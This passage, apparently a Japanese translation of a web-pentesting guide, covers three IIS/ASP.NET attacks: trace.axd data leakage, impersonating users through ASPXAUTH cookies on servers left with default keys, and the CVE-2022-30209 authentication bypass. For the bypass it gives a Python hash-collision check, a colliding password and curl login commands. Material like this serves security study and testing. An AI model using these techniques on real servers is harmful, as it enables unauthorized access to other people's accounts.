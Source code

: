 この情報には、リモートクライアントのIP、セッションID、すべてのリクエストとレスポンスのクッキー、物理パス、ソースコード情報、そして潜在的にユーザー名とパスワードさえ含まれる可能性があります。

[https://www.rapid7.com/db/vulnerabilities/spider-asp-dot-net-trace-axd/](https://www.rapid7.com/db/vulnerabilities/spider-asp-dot-net-trace-axd/)

![Screenshot 2021-03-30 at 13 19 11](https://user-images.githubusercontent.com/31736688/112974448-2690b000-915b-11eb-896c-f41c27c44286.png)

## ASPXAUTH Cookie

ASPXAUTHは以下の情報を使用します：

* **`validationKey`**（文字列）：署名検証に使用する16進数エンコードされたキー。
* **`decryptionMethod`**（文字列）：（デフォルトは“AES”）。
* **`decryptionIV`**（文字列）：16進数エンコードされた初期化ベクトル（ゼロのベクトルがデフォルト）。
* **`decryptionKey`**（文字列）：復号に使用する16進数エンコードされたキー。

ただし、これらのパラメータの**デフォルト値**を使用し、**ユーザーのメールをクッキーとして使用**する人もいます。したがって、攻撃対象のサーバーで**希望のユーザーのメールを持つユーザーを作成**し、ASPXAUTHクッキーを**第二のサーバーから第一のサーバーに使用**してユーザーを偽装することができるかもしれません。\
この攻撃はこの[**解説**](https://infosecwriteups.com/how-i-hacked-facebook-part-two-ffab96d57b19)で成功しました。

## キャッシュされたパスワードを使用したIIS認証バイパス（CVE-2022-30209） <a href="#id-3-iis-authentication-bypass" id="id-3-iis-authentication-bypass"></a>

[完全なレポートはこちら](https://blog.orange.tw/2022/08/lets-dance-in-the-cache-destabilizing-hash-table-on-microsoft-iis.html)：コードのバグが、ユーザーが提供したパスワードを**適切にチェックしなかった**ため、**パスワードハッシュがすでにキャッシュにあるキーに一致する**攻撃者はそのユーザーとしてログインできるようになります。
```python
# script for sanity check
> type test.py
def HashString(password):
j = 0
for c in map(ord, password):
j = c + (101*j)&0xffffffff
return j

assert HashString('test-for-CVE-2022-30209-auth-bypass') == HashString('ZeeiJT')

# before the successful login
> curl -I -su 'orange:ZeeiJT' 'http://<iis>/protected/' | findstr HTTP
HTTP/1.1 401 Unauthorized

# after the successful login
> curl -I -su 'orange:ZeeiJT' 'http://<iis>/protected/' | findstr HTTP
HTTP/1.1 200 OK
```
## WhiteIntel

<figure><img src=".gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

